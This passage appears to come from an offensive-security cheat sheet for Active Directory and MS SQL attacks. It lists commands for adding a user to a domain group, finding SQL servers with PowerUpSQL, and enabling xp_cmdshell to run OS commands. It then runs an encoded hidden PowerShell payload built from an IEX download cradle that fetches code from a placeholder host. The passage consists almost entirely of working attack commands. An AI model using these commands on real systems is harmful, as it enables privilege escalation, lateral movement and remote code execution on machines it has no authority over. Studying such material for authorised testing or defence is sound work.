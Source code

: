 ```
```

Modify Group Membership

```
run net group "Some Group" <USER> /add /domain
```

### MS SQL

Find MS SQL servers

```
powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1

powershell Get-SQLInstanceDomain

# Test Connection
powershell Get-SQLConnectionTest -Instance "<SERVER>" | fl
```

Get Info

```
powershell Get-SQLServerInfo -Instance "<SERVER>"

# Get info for all Accessible Servers
powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```

Command Execution

```
powershell Invoke-SQLOSCmd -Instance "<SERVER>" -Command "whoami" -RawResults
```

To execute manually, try:

```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

powershell Get-SQLQuery -Instance "<SERVER>" -Query "SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';"

# A value of **0** shows that xp_cmdshell is disabled. To enable it:

powershell Get-SQLQuery -Instance "<SERVER>" -Query "sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;"

# download and run payload 
powershell Get-SQLQuery -Instance "sql.rto.local,1433" -Query "EXEC xp_cmdshell 'powershell -w hidden -enc <blah>';"
```

Base64 encode command

```powershell
$str = 'IEX((new-object net.webclient).downloadstring("http://<IP>:<PORT>/URI"))'

[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str)) | clip 
```
